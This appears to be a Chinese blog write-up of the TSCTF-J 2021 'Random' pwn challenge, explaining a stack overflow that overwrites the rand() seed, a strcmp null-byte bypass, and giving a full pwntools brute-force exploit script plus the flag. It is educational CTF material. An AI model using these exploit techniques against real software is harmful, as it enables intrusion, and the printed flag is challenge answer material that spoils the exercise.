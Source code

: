 ```yaml
---
title: 「TSCTF-J_2021」Pwn - Random WriteUp
date: 2021-10-25 0:00:00
tags: ['TSCTF-J_2021', 'Pwn', 'WriteUp']
categories: ['CTF']
authors: [nova]
index_img: https://novanoir.moe/img/ctf_logo_1.png
banner_img: https://novanoir.moe/img/ctf_logo_1.png
---
```


## 分析

使用 IDA 打开, 发现题目要求我们输入正确10次C产生的随机数, 接着需要再输入正确的`/dev/urandom`产生的随机字节数据流

### 初期资料

#### rand()
`rand()`函数每次调用前都会查询是否调用过`srand(seed)`，是否给`seed`设定了一个值，如果有那么它会自动调用`srand(seed)`一次来初始化它的起始值
若之前没有调用`srand（seed）`，那么系统会自动给`seed`赋初始值，即`srand（1）`自动调用它一次

<!--truncate-->

#### /dev/urandom

`/dev/urandom`是Linux系统中提供的随机伪设备，任务是提供永不为空的随机字节数据流。



既然`rand()`是根据随机数种子`seed`生成随机数，那么只要`seed`相同，不就可以生成一样的随机数了么？



### 分析代码

#### 第一个随机

我们可以发现*buf*的长度是*22*, 却可以读入*0x30bytes*的数据

![read函数](https://cdn.novanoir.moe/img/image-20211025093806860.png)

观察栈堆，可以发现*buf*与*seed*只相距*0x18*个字节, 则我们可以考虑栈溢出覆盖随机数种子

![栈堆](https://cdn.novanoir.moe/img/image-20211025094037688.png)

#### 第二个随机

这里就略有难度了。搜索的时候我发现了一个通过填充`\x00`使`strlen=0`直接跳过`strncmp`的方法，但这个显然不适合我们的`strcmp`

![第二个随机](https://cdn.novanoir.moe/img/image-20211025095441204.png)

但`strcmp`工作原理是这样的：

> strcmp: 两个字符串自左向右逐个字符相比（按ASCII值大小相比较），直到出现不同的字符或遇'\0'为止。

也就是说, 如果*s*是以`\x00`开头的话, 我们的`strcmp`就会返回0, 而不用管后面的数据和`buff`是什么。

这也就是真正的random - 让`/dev/urandom`生成以`\x00`开头的字节数据流。

### 编写脚本

```python
from pwn import *
from ctypes import *
context.log_level = 'debug'
def burp():
    sh = remote("173.82.120.231", 10000) 
    # sh = process("./randomn") # 在本地测试的时候不知道为什么会报EOFError, 只好连接服务器跑脚本 （问了一哈可能是Ubuntu20.04LTS的程序保护问题）
    libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6') # 引用库文件
    payload = '\x00' * 0x20 # 既然我们的数据都只与buf和seed有关，不如直接全用\x00填充掉
    sh.sendlineafter("ranqom...",payload)
    libc.srand(1) # 用0和用1作为seed结果是一样的
    for i in range(10):
    	a = libc.rand()%100
    	sh.sendlineafter("is the number?\n", str(a))
    
    # Random_2
    payload = '\x00' # 随便填充一个啦
    sh.sendafter("THIS!??!!", payload)
    print(sh.recvline()) # 会有一个空行所以print了一下，其实也没有必要（）
    respon = str(sh.recvline())
    print(respon)
    if 'LUuUncky' in respon:
    	sh.interactive()
    else:
    	burp()
burp()
```

> 这里有一个小细节, 我们把`seed`用`\x00`填充后，`rand()`函数会自动调用`srand(1)`一次, 而其实`srand(1)`和`srand(0)`的结果是相同的
>
> 关于这里我在[stackoverflow](https://stackoverflow.com/questions/8049556/what-s-the-difference-between-srand1-and-srand0)上找到了一篇文章
>
> > How glibc does it:
> >
> > >  [around line 181 of glibc/stdlib/random_r.c](http://sourceware.org/git/?p=glibc.git;a=blob;f=stdlib/random_r.c;h=51a2e8c812aee78783bd6d38c1b6269d41c8e47e;hb=HEAD#l181), inside function `__srandom_r`
> >
> > ```csharp
> >   /* We must make sure the seed is not 0.  Take arbitrarily 1 in this case.  */
> >   if (seed == 0)
> >     seed = 1;
> > ```
> > But that's just how glibc does it. It depends on the implementation of the C standard library.

于是接下来就是漫长的爆破环节了，只能说运气是真的不好，爆破了一个多小时，让我一度以为脚本写的有问题（）

![后半段](https://cdn.novanoir.moe/img/image-20211025104934165.png)

经过漫长的等待终于拿到了FLAG`o00O0o00D_LuCk_With_y0ur_Ctf_career!!!}`，但只有后半段？怎么会事呢？

仔细研究IDA才发现，前半段其实在第一次random随机的时候就给出了（但是我由于觉得log等级debug的东西太多了在跑的时候给他注释掉了）

![前半段_IDA](https://cdn.novanoir.moe/img/image-20211025101006065.png)

于是再跑一次前半段，得到前半段flag`TSCTF-J{G0`

![前半段](https://cdn.novanoir.moe/img/image-20211025101032214.png)

拼接一下就有完整的FLAG了：

`TSCTF-J{G0o00O0o00D_LuCk_With_y0ur_Ctf_career!!!}`

